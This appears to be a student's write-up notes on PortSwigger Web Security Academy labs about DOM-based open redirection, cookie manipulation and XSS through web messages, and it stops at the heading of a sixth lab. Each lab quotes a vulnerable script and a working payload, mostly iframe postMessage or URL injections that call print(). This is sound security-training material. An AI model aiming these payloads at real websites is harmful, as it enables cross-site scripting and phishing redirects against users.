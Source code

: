 ## Lab - 1: DOM-based open redirection

- This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server.

- Vulnerable script may be at `/post?postId=1` page

```html
<a
  href="#"
  onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'
  >Back to Blog</a
>
```

```
https://0a6a008d033583b9c00962fb00c600c1.web-security-academy.net/post?postId=1&url=https://exploit-server.com#
```

---

## Lab - 2: DOM-based cookie manipulation

- This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

- Vulnerable script may be at `/post?postId=1` page

```html
<script>
  document.cookie =
    "lastViewedProduct=" + window.location + "; SameSite=None; Secure";
</script>
```

In the exploit server body,

```html
<iframe
  src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>"
  onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;"
></iframe>
```

---

## Lab - 3: DOM XSS using web messages (P)

- Vuln JS script that was found

```html
<script>
  window.addEventListener("message", function (e) {
    document.getElementById("ads").innerHTML = e.data;
  });
</script>
```

- In exploit server body,

```html
<iframe
  src="https://0afd00cd0391a181c0cd832300ce0055.web-security-academy.net/"
  onload="this.contentWindow.postMessage('<img src=x onerror=print()>', '*')"
></iframe>
```

---

## Lab - 4: DOM XSS using web messages and a JavaScript URL

- Vulns JS script that was found

```html
<script>
  window.addEventListener(
    "message",
    function (e) {
      var url = e.data;
      if (url.indexOf("http:") > -1 || url.indexOf("https:") > -1) {
        location.href = url; // sink
      }
    },
    false
  );
</script>
```

- In exploit server body

```html
<iframe
  src="https://0a4b0006031a9db0c0a30b33006c005f.web-security-academy.net/"
  onload="this.contentWindow.postMessage('javascript:print()//http:', '*')"
></iframe>
```

---

## Lab - 5: DOM XSS using web messages and JSON.parse

- Vulns JS script

```html
<script>
  window.addEventListener(
    "message",
    function (e) {
      var iframe = document.createElement("iframe"),
        ACMEplayer = { element: iframe },
        d;
      document.body.appendChild(iframe);
      try {
        d = JSON.parse(e.data); //JSON object
      } catch (e) {
        return;
      }
      switch (d.type) {
        case "page-load":
          ACMEplayer.element.scrollIntoView();
          break;
        case "load-channel":
          ACMEplayer.element.src = d.url; // sink
          break;
        case "player-height-changed":
          ACMEplayer.element.style.width = d.width + "px";
          ACMEplayer.element.style.height = d.height + "px";
          break;
      }
    },
    false
  );
</script>
```

- In exploit server body,

```html
<iframe
  src="https://0a9400be04e7f017c06750dc00650083.web-security-academy.net/"
  onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'
></iframe>
```

---

## Lab - 6: Exploiting DOM clobbering to enable XSS
